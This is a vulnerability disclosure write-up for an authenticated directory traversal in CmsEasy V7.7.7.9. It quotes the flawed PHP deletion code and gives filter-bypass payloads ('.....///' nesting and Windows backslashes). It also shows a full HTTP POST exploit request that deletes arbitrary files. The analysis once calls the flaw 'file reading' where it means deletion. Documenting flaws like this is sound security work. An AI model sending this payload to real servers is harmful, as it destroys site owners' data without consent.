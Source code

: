# CmsEasy-V7.7.7.9 20240105-Directory Traversal


**Note: This reproduction requires logging into the admin panel first.**


## Introduce

CmsEasy has a directory traversal vulnerability in `lib/admin/database_admin.php` that allows arbitrary file deletion. Attackers can exploit this vulnerability to traverse directories and delete arbitrary files.



## Analyze

In the `lib/admin/database_admin.php` file, due to insufficient filtering in the `backAll_action` function, directory traversal leads to arbitrary file deletion.

![image-20250123005104482](/assest/cmseasy/cmseasy-1.png)



```php
 function backAll_action(){
        $dir=ROOT.'/data/backup-website';
        if(front::post('submit') &&is_array(front::post('select'))) {
            foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
            front::flash(lang_admin('success').lang_admin('delete').count(front::post('select')).lang_admin('individual').lang_admin('archives').'！');
        }
        $dirs=front::scan($dir);
        $db_dirs=array();
        foreach($dirs as $dir) {
            if(!preg_match('/\.\./',$dir)) $db_dirs[]=service::lockString($dir);
        }
        //var_dump($db_dirs);
        $this->view->db_dirs=$db_dirs;
    }
```

The `front::post` method is equivalent to `$_POST`.

It can be observed that the dangerous function `unlink` is used.
Additionally, the parameter `select` is controllable (an array).

```php
foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
```

Through analysis and filtering, it can be concluded that developers want to avoid arbitrary file reading vulnerabilities caused by path traversal.

However, an attacker can use filter conditions to construct content to achieve arbitrary file reading.

```

Bypass Method 1:
.....///.....///
=>
../../


Bypass Method 2:  # Utilize Windows parsing characteristics (this method only works on Windows).
..\\..\\
```



## Exploit

```http
POST /index.php?case=database&act=backAll&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.0.104:5678
Content-Length: 38
Cache-Control: max-age=0
Origin: http://192.168.0.104:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-fetch-site: same-origin
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
cookie: loginfalse74c6352c5a281ec5947783b8a186e225=6; PHPSESSID=73sf2og6s5l9qp6507aeofvp19; allowdown=985f28e9d3af52c829b07a025282006b; login_username=admin; login_password=yxx2O2HvK1vseDc6d%253DMBgleqHCHKdC%253DocDZ%253DK%253DMuLxOuV2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=.....///.....///test.txt
```



Create `1.txt` file to test.

![image-20250123010305574](/assest/cmseasy/cmseasy-2.png)



Send the exploit (constructing two levels up in the directory because the trigger point is located in `lib/admin/database_admin.php`).  The response "Template does not exist" is displayed normally, but the deletion was actually successful.

![image-20250123010228909](/assest/cmseasy/cmseasy-3.png)



The file can be seen to have been deleted.

![image-20250123010334583](/assest/cmseasy/cmseasy-4.png)

